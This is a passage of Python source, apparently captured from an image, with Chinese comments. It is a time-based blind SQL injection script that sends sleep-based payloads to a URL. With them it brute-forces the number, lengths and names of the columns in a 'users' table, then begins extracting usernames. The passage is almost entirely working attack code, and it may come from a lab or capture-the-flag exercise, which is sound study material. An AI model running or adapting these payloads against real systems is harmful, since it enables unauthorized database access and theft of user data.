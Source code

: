 ```python
            response = request.urlopen(url + parse.quote(param))
            if (time() - t > 0.1 ):
                table_name += chr(a)
                break
    print("table_name:" + table_name)


# 3 查字段

# 查字段个数

columns_num = 0
while True:
    param = "1' and if((select count(*) from information_schema.columns where table_name='users')="+str(columns_num)+",sleep(0.1),1) #"
    t = time()
    response = request.urlopen(url + parse.quote(param))
    if (time() - t > 0.1):
        print("columns_name:"+str(columns_num))
        break
    else:
        columns_num += 1

# 查每个字段的长度

def co_length(num):
    columns_length = 0
    while True:
        param = "1' and if(length(substr((select column_name from information_schema.columns where table_name='users' limit "+str(num)+",1),1))="+str(columns_length)+",sleep(0.1),1) #"
        t = time()
        response = request.urlopen(url + parse.quote(param))

        if (time() - t > 0.1):
            return columns_length
            break
        else:
            columns_length += 1
# 查每个字段的值

for n in range(columns_num):
    columns_name =""
    for l  in range(co_length(n)): # 表的长度
        
        for a in range(0,128): #爆破表
            
            param = "1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit "+str(n)+",1),"+str(l+1)+",1)) ="+str(a)+",sleep(0.1),1) #"
            t = time()
            response = request.urlopen(url + parse.quote(param))
            if (time() - t > 0.1):
                columns_name += chr(a)
                break
    print("table_name:" +columns_name)

# 下载数据

# 查 username

num = 0
while True:
    param = "1' and if((select count(*) from users )= "+str(num)+",sleep(0.1),1)#"
    t = time()
```